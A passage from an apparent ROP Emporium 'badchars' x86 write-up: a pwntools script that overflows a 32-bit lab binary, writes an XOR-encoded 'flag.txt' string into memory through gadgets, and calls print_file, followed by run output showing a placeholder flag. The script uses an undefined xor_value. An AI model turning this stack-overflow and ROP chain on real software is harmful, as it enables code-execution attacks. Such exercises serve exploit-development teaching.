 ```
data = 0x0804a018 # address of .data
print_file = p32(0x80483d0)
pops = p32(0x080485b8) # pop ebx ; pop esi ; pop edi ; pop ebp ; ret
moves = p32(0x804854f) # mov DWORD PTR [edi],esi ; ret
xor = p32(0x08048547) # xor byte ptr [ebp], bl ; ret
popEbp = p32(0x080485bb) # pop ebp ; ret

e = ELF("./badchars32")

io = e.process()

print(io.recvuntil(">"))

payload = b"A" * 44
payload += pops
payload += p32(xor_value) # value to xor with
payload += p32(0x46404d47) # "flag" for edi
payload += p32(data) # for edi
payload += p32(data) # for ebp
payload += moves

payload += pops
payload += p32(xor_value) # value to xor with
payload += p32(0x5559550f) # ".txt" for edi
payload += p32(data + 4) # for edi
payload += p32(data) # for ebp
payload += moves

for i in range(8): # unxor the string
    payload += popEbp
    payload += p32(data + i)
    payload += xor

# return to print_file
payload += print_file
payload += popEbp
payload += p32(data)

with open("payload", "wb") as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```
And the flag:

```
voidwalker@Abyss:[badcharsx86]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/badcharsx86/badchars32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/badcharsx86/badchars32': pid 22003
b"badchars by ROP Emporium\nx86\n\nbadchars are: 'x', 'g', 'a', '.'\n>"
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```
